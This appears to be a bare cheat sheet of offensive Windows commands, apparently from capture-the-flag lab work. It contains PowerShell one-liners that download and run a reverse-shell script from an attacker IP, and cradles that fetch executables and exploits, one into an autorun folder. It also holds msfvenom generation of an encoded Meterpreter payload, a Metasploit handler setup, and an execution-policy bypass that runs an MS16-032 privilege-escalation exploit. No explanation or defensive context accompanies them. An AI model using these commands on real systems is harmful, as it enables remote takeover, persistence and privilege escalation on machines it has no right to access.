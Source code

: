 powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8001/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.124 -Port 8002

powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8001/program.exe' -OutFILE 'C:\Program Files\Autorun Program\program.exe'"
powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8001/Invoke-PowerShellTcp.ps1' -OutFILE 'C:\users\kostas\Desktop\Invoke-PowerShellTcp.ps1'"

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.20.231:8001/shell-.exe','shell.exe')"

powershell -c "Invoke-WebRequest -Uri 'http://10.10.200.223:8000/program.exe' -OutFILE 'C:\Program Files\Autorun Program\program.exe'"

powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.124:8282/39719.ps1' -OutFILE 'C:\Users\kostas\Desktop\39719.ps1'"

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.6:9005/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"

powershell IEX(New-Object Net.WebClient).downloadString(‘http://<attacking machine>/Empire.ps1')


C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe -ep bypass -File \\10.10.14.124\kali\tools\enumeration\nmapAutomator\10.129.1.127\MS16-032.ps1
